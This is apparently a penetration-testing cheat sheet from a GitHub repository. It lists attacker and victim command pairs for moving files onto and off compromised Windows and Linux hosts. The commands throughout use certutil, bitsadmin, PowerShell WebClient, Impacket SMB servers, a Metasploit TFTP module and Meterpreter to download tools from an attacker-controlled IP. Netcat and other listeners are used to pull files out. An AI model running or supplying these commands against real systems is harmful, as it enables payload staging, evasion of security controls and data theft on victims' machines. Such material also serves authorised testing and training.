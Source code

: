 # myfiles
## Windows File Transfer


### IWR (Invoke-Web Request)


Attacker: 
```
python -m SimpleHTTPServer 80
nc -lvp 4444
```
Victim: 
```
powershell.exe -command iwr -Uri http://192.168.1.2/putty.exe -OutFile C:\Temp\putty.exe "
dir

powershell.exe iwr -uri 192.168.1.2/putty.exe -o C:\Temp\putty.exe

powershell
iwr -uri 192.168.1.2/putty.exe -o C:\Temp\putty.exe
dir
```

### Certutil


Attacker Machine: We can use the same SimpleHTTP Server on port 80 on the attacker machine to send the file from that directory.

Victim Machine: Make use of the following command to download the file from the attacker machine. For the command, you have mentioned the ip-address/file “and then the output file name. The -f in the command generally forces overwrite.

```
certutil -urlcache -f http://192.168.1.2/putty.exe putty.exe
or
certutil -urlcache -split -f http://192.168.1.2/putty.exe putty.exe
```

### Bitsadmin
```
bitsadmin /transfer job https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe C:\Temp\putty.exe
```

### Curl

Attacker Machine: We can use the same SimpleHTTP Server on port 80 on the attacker machine to send the file from that directory.
```
python -m SimpleHTTPServer 80
```
Victim Machine: On the victim machine, run the following command to download the file from the attacker machine.
```
curl http://192.168.1.2/putty.exe -o putty.exe
dir
```

Wget
----
Attacker Machine: Run the SimpleHTTP Server on port 80 on the attacker machine to send the file from that directory.
```
python -m SimpleHTTPServer 80
```
Victim Machine: Open Powershell on the windows machine and run the following command. Mention the path to download the file from and then give the output path to save the file putty.exe.
```
powershell 
wget http://192.168.1.2/putty.exe -OutFile putty.exe
dir

powershell.exe wget http://192.168.1.2/putty.exe -OutFile putty.exe
```
### Powershell

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/putty.exe', 'putty.exe')

dir
```
### SMB Server Impacket-Smbserver


Attacker Machine: On the attacker, the machine goes to the directory from which the file is to be transferred. Then let’s make use of Impacket-smbserver to share this file from the local machine.
Note: Impacket provides low-level programming access to some packets for certain protocols in the network.
(Run SMB oneliner instead of python server)
```
impacket-smbserver share $(pwd) -smb2support

impacket-smbserver share /root/Downloads/test -smb2support
```
Victim Machine:
```
copy \\192.168.1.2\share\putty.exe
dir
or
net use \\192.168.1.2\share
net use
copy \\192.168.1.2\share\putty.exe
dir
```
*Using a different Operating system where Impacket is not installed by default----

Attacker Machine: On the attacker, the machine goes to the directory from which the file is to be transferred.
Install: https://www.hackingarticles.in/impacket-guide-smb-msrpc/
```
python3 smbserver.py share /root/test -smb2support
```
Victim Machine:
```
copy \\192.168.1.2\share\putty.exe
dir
```
### TFTP

Run Metasploit
```
use auxiliary/server/tftp
set srvhost IP
set tftproot "file path /root/file.txt"
exploit
```
Victim Machine:
```
tftp -i 192.168.1.2 GET file.txt
```
### FTP (When file name is known only)

Victim Machine:
```
ftp 192.168.1.5 
get file.txt
dir
```
## LINUX File Transfer


### PHP Web-Server


Attacker Machine: 
```
php -S 0.0.0.0:8080
```
Victim Machine: On the victim machine’s web browser 
```
192.168.1.6:8080/putty.exe
```
### Apache


Attacker Machine: before transferring file through web directories and then move any file into the HTML directory to share it. Then restart the apache service.
```
root@kali[/Download/Test]- cp putty.exe /var/www/html
service apache2 restart
```
Victim Machine:
```
192.168.1.6/putty.exe
```
### Simple HTTP server

```
python -m SimpleHTTPServer
python3 -m http.server 8000
```
Victim Machine:
```
192.168.q.6:8000
```
### Curl
```
curl -O http://192.168.1.6/putty.exe
```
### Wget
```
wget 192.168.1.6/putty.exe
```
### Netcat
```
Attacker:
nc -lvp 5555 > file.txt

Victim:
nc 192.168.1.6 5555 < file.txt
```
### SCP
```
Attacker Machine:
scp file.txt kali@192.168.1.6:/tmp

Victim:
cd /tmp
cat file.txt
```
### SMB-Client

```
Attacker:
smbclient -L 192.168.1.21 -U raj%123

Victim:
smbclient  //192.168.1.21/share -U raj%123
```
### Meterpreter

```
Attacker Machine:
meterpreter> download file.txt /root/Desktop/
```
### FTP
```
Attacker Machine:
pip install pyftpdlib
python3 -m pyftpdlib -p 21 -u jeenali -P 123

Victim Machine:
ftp 192.168.1.5

or browser ftp://192.168.1.5
```
















































